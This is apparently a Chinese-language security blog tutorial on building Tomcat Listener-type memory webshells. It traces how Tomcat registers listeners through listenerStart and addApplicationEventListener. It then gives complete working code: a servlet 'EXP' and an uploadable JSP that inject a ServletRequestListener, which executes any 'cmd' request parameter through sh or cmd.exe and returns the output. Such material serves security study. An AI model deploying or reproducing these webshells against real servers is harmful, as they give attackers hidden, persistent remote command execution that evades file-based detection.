










# 0x01 关于Listener监听器



从上面的图片以及之前介绍servlet处理逻辑的时候可以知道，当我们发送请求的时候的顺序是Listener->Filter->Servlet，Listener是最先被加载的

在 **Java Web** 中，**Listener（监听器）**是一类用于监听和响应 **Web 应用中发生的特定事件** 的组件。它是一种 **事件驱动机制**，可以让开发者在事件发生时自动执行一些逻辑，而无需手动调用。

在`tomcat`中，常见的`Listener`有以下几种：

1. **ServletContextListener** ：用来监听整个`Web`应用程序的启动和关闭事件，需要实现`contextInitialized`和`contextDestroyed`这两个方法
2. **HttpSessionListener**：用来监听`HTTP`会话的创建和销毁事件，需要实现`sessionCreated`和`sessionDestroyed`这两个方法
3. **ServletRequestListener**：用来监听`HTTP`请求的创建和销毁事件，需要实现`requestInitialized`和`requestDestroyed`这两个方法
4. **HttpSessionAttributeListener**：监听`HTTP`会话属性的添加、删除和替换事件，需要实现`attributeAdded`、`attributeRemoved`和`attributeReplaced`这三个方法。

从上面不难看出，使用ServletRequestListener是最适合用来做内存马的了，因为只要发送了http请求他都会触发监听

# 0x02 实现Listener的Demo

我们先看看ServletRequestListener接口需要实现的方法

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package javax.servlet;

import java.util.EventListener;

public interface ServletRequestListener extends EventListener {
    default void requestDestroyed(ServletRequestEvent sre) {
    }

    default void requestInitialized(ServletRequestEvent sre) {
    }
}

```

**requestInitialized：**在request对象创建时触发

**requestDestroyed：**在request对象销毁时触发

这个接口继承了EventListener

然后写个demo

```java
package org.example;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class TestListener implements ServletRequestListener {
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("destroyed TestListener");
    }
}
```

然后在web.xml中添加监听器

```java
  <listener>
    <listener-class>org.example.TestListener</listener-class>
  </listener>
```

然后我们运行起来看看呢



当我们访问对应路径的时候，会在控制台打印对应的消息

然后我们来分析一下Listener运行的流程

# 0x03 从代码层面分析Listener运行的整体流程

分别在class和requestInitialized函数上分别打上断点



在函数调用栈中看到一个listenerStart函数，跟进看一下



```java
    public boolean listenerStart() {

        if (log.isTraceEnabled()) {
            log.trace("Configuring application event listeners");
        }

        // Instantiate the required listeners
        String[] listeners = findApplicationListeners();
        Object[] results = new Object[listeners.length];
        boolean ok = true;
        for (int i = 0; i < results.length; i++) {
            if (getLogger().isTraceEnabled()) {
                getLogger().trace(" Configuring event listener class '" + listeners[i] + "'");
            }
            try {
                String listener = listeners[i];
                results[i] = getInstanceManager().newInstance(listener);
            } catch (Throwable t) {
                Throwable throwable = ExceptionUtils.unwrapInvocationTargetException(t);
                ExceptionUtils.handleThrowable(throwable);
                getLogger().error(sm.getString("standardContext.applicationListener", listeners[i]), throwable);
                ok = false;
            }
        }
        if (!ok) {
            getLogger().error(sm.getString("standardContext.applicationSkipped"));
            return false;
        }

        // Sort listeners in two arrays
        List<Object> eventListeners = new ArrayList<>();
        List<Object> lifecycleListeners = new ArrayList<>();
        for (Object result : results) {
            if ((result instanceof ServletContextAttributeListener) ||
                    (result instanceof ServletRequestAttributeListener) || (result instanceof ServletRequestListener) ||
                    (result instanceof HttpSessionIdListener) || (result instanceof HttpSessionAttributeListener)) {
                eventListeners.add(result);
            }
            if ((result instanceof ServletContextListener) || (result instanceof HttpSessionListener)) {
                lifecycleListeners.add(result);
            }
        }

        // Listener instances may have been added directly to this Context by
        // ServletContextInitializers and other code via the pluggability APIs.
        // Put them these listeners after the ones defined in web.xml and/or
        // annotations then overwrite the list of instances with the new, full
        // list.
        eventListeners.addAll(Arrays.asList(getApplicationEventListeners()));
        setApplicationEventListeners(eventListeners.toArray());
        for (Object lifecycleListener : getApplicationLifecycleListeners()) {
            lifecycleListeners.add(lifecycleListener);
            if (lifecycleListener instanceof ServletContextListener) {
                noPluggabilityListeners.add(lifecycleListener);
            }
        }
        setApplicationLifecycleListeners(lifecycleListeners.toArray());

        // Send application start events

        if (getLogger().isTraceEnabled()) {
            getLogger().trace("Sending application start events");
        }

        // Ensure context is not null
        getServletContext();
        context.setNewServletContextListenerAllowed(false);

        Object[] instances = getApplicationLifecycleListeners();
        if (instances == null || instances.length == 0) {
            return ok;
        }

        ServletContextEvent event = new ServletContextEvent(getServletContext());
        ServletContextEvent tldEvent = null;
        if (!noPluggabilityListeners.isEmpty()) {
            noPluggabilityServletContext = new NoPluggabilityServletContext(getServletContext());
            tldEvent = new ServletContextEvent(noPluggabilityServletContext);
        }
        for (Object instance : instances) {
            if (!(instance instanceof ServletContextListener)) {
                continue;
            }
            ServletContextListener listener = (ServletContextListener) instance;
            try {
                fireContainerEvent("beforeContextInitialized", listener);
                if (noPluggabilityListeners.contains(listener)) {
                    listener.contextInitialized(tldEvent);
                } else {
                    listener.contextInitialized(event);
                }
                fireContainerEvent("afterContextInitialized", listener);
            } catch (Throwable t) {
                ExceptionUtils.handleThrowable(t);
                fireContainerEvent("afterContextInitialized", listener);
                getLogger().error(sm.getString("standardContext.listenerStart", instance.getClass().getName()), t);
                ok = false;
            }
        }
        return ok;

    }
```

可以看到listener是来源于listeners，然后这个listeners是通过调用findApplicationListeners函数来的，随后用newInstance去实例化监听器



这里可以看出是在实例化我们刚刚写的TestListener，接下来会遍历得到的results中的listener，根据不同类型放入不同的数组中

```java
        // Sort listeners in two arrays
        List<Object> eventListeners = new ArrayList<>();
        List<Object> lifecycleListeners = new ArrayList<>();
        for (Object result : results) {
            if ((result instanceof ServletContextAttributeListener) ||
                    (result instanceof ServletRequestAttributeListener) || (result instanceof ServletRequestListener) ||
                    (result instanceof HttpSessionIdListener) || (result instanceof HttpSessionAttributeListener)) {
                eventListeners.add(result);
            }
            if ((result instanceof ServletContextListener) || (result instanceof HttpSessionListener)) {
                lifecycleListeners.add(result);
            }
        }
```

这里的话可以看到我们的ServletRequestListener是放入eventListeners的

继续往下看



```java
        eventListeners.addAll(Arrays.asList(getApplicationEventListeners()));
        setApplicationEventListeners(eventListeners.toArray());
```

调用getApplicationEventListeners()方法去返回当前注册的监听器applicationEventListenersList中的值，然后将数组转化成列表并将内容添加到eventListeners中，我们跟进getApplicationEventListeners看看

```java
    @Override
    public Object[] getApplicationEventListeners() {
        return applicationEventListenersList.toArray();
    }
```

很简单，就是将applicationEventListenersList转化成数组，但是调试之后发现这里是空的



在 **Tomcat 或类似 Java Web 容器** 中，`applicationEventListenersList`通常是一个 **List**，用来存放 **当前 Web 应用注册的所有事件监听器对象实例**。

从这里其实可以看出，tomcat中的listener主要有两个来源，一个是来源于web.xml或者注解`@WebListener`实例化得到的listener，一个就是从applicationEventListenersList中实例化listener，那我们只要在applicationEventListenersList中添加listener就可以实现动态注册listener监听器了

然后我们来到第二个断点



在函数调用栈中看到一个fireRequestInitEvent函数



在fireRequestInitEvent()函数中可以看到这里先是用getApplicationEventListeners函数去获取监听器实例对象instances，随后遍历instances并调用每个监听器对象的requestInitialized方法。

# 0x04 Listener内存马实现

从上面的分析我们可以知道，只要能获取到applicationEventListenersList并在applicationEventListenersList中添加listener就可以实现动态注册了，那是否有像之前一样的add函数呢？当然有啦

在org.apache.catalina.core.StandardContext类中的addApplicationEventListener方法

```java
    public void addApplicationEventListener(Object listener) {
        applicationEventListenersList.add(listener);
    }
```

这里教大家怎么找啊，我们直接定位到那个变量applicationEventListenersList，然后在所有位置查找用法



然后就可以看到这个变量被用到的地方了

所以我们的Listener内存马实现步骤:

- 继承并编写一个恶意Listener
- 获取StandardContext
- 调用`StandardContext.addApplicationEventListener()`添加恶意Listener

## 最终的EXP

```java
package com.example.Listener_Memshell;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletException;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet("/ListenerPOC")
public class ListenerPOC extends HttpServlet {
    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try{
            ServletRequestListener listener = new ServletRequestListener() {
                @Override
                public void requestInitialized(ServletRequestEvent sre) {
                    try{
                        RequestFacade requestFacade = (org.apache.catalina.connector.RequestFacade) sre.getServletRequest();
                        Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
                        requestField.setAccessible(true);
                        Request req = (Request) requestField.get(requestFacade);
                        Response response = req.getResponse();
                        String cmd = req.getParameter("cmd");
                        if (cmd != null) {
                            boolean isLinux = true;
                            String osTyp = System.getProperty("os.name");
                            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                                isLinux = false;
                            }
                            String[] cmdArray = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd}; //根据操作系统选择shell
                            //执行命令并获取命令输出
                            InputStream in = Runtime.getRuntime().exec(cmdArray).getInputStream();
                            Scanner s = new Scanner(in).useDelimiter("\\a");  //使用 Scanner 读取 InputStream 的内容
                            String output = s.hasNext() ? s.next() : "";  //如果有内容就读取，否则为空字符串
                            PrintWriter out = response.getWriter();  //获取 Servlet 输出流，用于返回给客户端（浏览器）
                            out.println(output);  //打印输出
                            out.flush();
                            out.close();
                        }
                    } catch (IOException e) {
                        throw new RuntimeException(e);
                    } catch (NoSuchFieldException e) {
                        throw new RuntimeException(e);
                    } catch (ClassNotFoundException e) {
                        throw new RuntimeException(e);
                    } catch (IllegalAccessException e) {
                        throw new RuntimeException(e);
                    }
                }
            };
            Field reqF = request.getClass().getDeclaredField("request");
            reqF.setAccessible(true);
            Request req = (Request) reqF.get(request);
            StandardContext standardContext = (StandardContext) req.getContext();
            standardContext.addApplicationEventListener(listener);
            response.getWriter().write("Inject Success");
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
    }
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        this.doPost(req, resp);
    }
}
```

访问servlet后注入成功，随后传入cmd命令就行了

## 文件上传的jsp内存马

```java
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    public class listenershell implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            String cmd = req.getParameter("cmd");
            if (cmd != null) {
                boolean islinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    islinux = false;
                }
                String[] cmdArray = islinux ? new String[]{"sh","-c",cmd} : new String[]{"cmd.exe","/c",cmd};//根据操作系统选择不同的shell
                //执行命令并获取输出
                try{
                    InputStream in = Runtime.getRuntime().exec(cmdArray).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\a");  //使用 Scanner 读取 InputStream 的内容
                    String output = s.hasNext() ? s.next() : "";  //如果有内容就读取，否则为空字符串
                    Field rep = req.getClass().getDeclaredField("request");  //获取 Servlet 输出流，用于返回给客户端（浏览器）
                    rep.setAccessible(true);
                    Request request = (Request) rep.get(req);
                    request.getResponse().getWriter().write(output);
                } catch (IOException e){
                } catch (NoSuchFieldException e){
                } catch (IllegalAccessException  e){}
            }
        }
    }
%>
<%
    //反射获取StandardContext
//    ServletContext servletContext = request.getServletContext();
//    Field appctx = servletContext.getClass().getDeclaredField("context");
//    appctx.setAccessible(true);
//    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
//    Field stdctx = applicationContext.getClass().getDeclaredField("context");
//    stdctx.setAccessible(true);
//    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    // 更简单的方法 获取StandardContext
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    listenershell listenershell = new listenershell();
    standardContext.addApplicationEventListener(listenershell);
    out.println("inject success");
%>
```

访问listenershell.jsp之后随便发送一个请求并传入cmd参数执行命令就可以了

这个内存马的话操作不多，就一个addApplicationEventListener添加listener对象，就不再赘述了

参考文章：

https://xz.aliyun.com/news/13078

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Listener%E5%9E%8B/

https://xz.aliyun.com/news/13080

https://github.com/Y4tacker/JavaSec/blob/main/5.%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/Tomcat/Tomcat-Listener%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Listener%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC.md

https://drun1baby.top/2022/08/27/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-04-Tomcat-%E4%B9%8B-Listener-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/
